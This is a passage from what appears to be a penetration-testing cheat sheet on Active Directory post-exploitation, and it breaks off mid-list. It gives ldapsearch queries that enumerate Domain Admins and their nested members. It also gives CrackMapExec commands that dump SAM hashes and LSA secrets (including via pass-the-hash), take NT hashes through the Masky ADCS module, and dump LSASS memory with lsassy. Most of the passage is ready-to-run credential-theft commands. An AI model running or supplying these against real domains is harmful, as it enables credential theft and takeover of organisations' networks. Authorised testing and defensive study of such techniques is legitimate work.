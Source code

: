 ```
ldapsearch -x -LLL -H ldap://<DC-FQDN> -D '<Domain\username>' -w <password> -b "CN=Administrators,CN=Builtin,DC=uct,DC=local"
```

Find the ldap path to Domain Admins in the output and then use this query to get all nested members:

```
ldapsearch -x -LLL -H ldap://<DC-FQDN> -D '<Domain\username>' -w <password> -b "dc=domain,dc=local" '(memberOf:1.2.840.113556.1.4.1941:=cn=Domain Admins,OU=Infrastructure,OU=Elevated Security Groups and Users,DC=domain,DC=local)' cn
```

Get sAMAccountName of specific member:

```
ldapsearch -x -LLL -H ldap://<DC-FQDN> -D '<Domain\username>' -w <password> -b "CN=someuser,OU=Disabled Accounts,DC=domain,DC=local" | grep sAMAccountName
```

## CrackMapExec - find hosts where the user is a local administrator

It's useful to tee the output to your 'logs' dir so that you can later grep for example a list of affected hosts or recreate a finding for a screenshot! The following commands will result in outputting `Pwn3d!` to the screen as well as dumping local SAM hashes on systems where the user is a local administrator.

`crackmapexec smb [hostname/IP/file list] -u [username] -p [password] --sam | tee logs/cme-[username].log`

or...

`crackmapexec smb [hostname/IP/file list] -u [username] -H [NLTM Hash] --sam | tee logs/cme-[username].log`

It is helpful to run the command again using the `--lsa` option to get LSA secrets, which frequently contain plaintext passwords!

## Dumping LSASS creds

### Latest method: CrackMapExec Masky module

If you have admin privilege, the module will impersonate all users connected -> ask a certificate (ADCS) -> retrieve the NT hash using PKINIT.

```
crackmapexec ldap <IP or file> -u <username> -p <password> -M adcs
```

### Dump lsass process memory and get passwords or hashes

`crackmapexec smb [hostname/IP/file list] -u [username] -p [password] -M lsassy`

or...
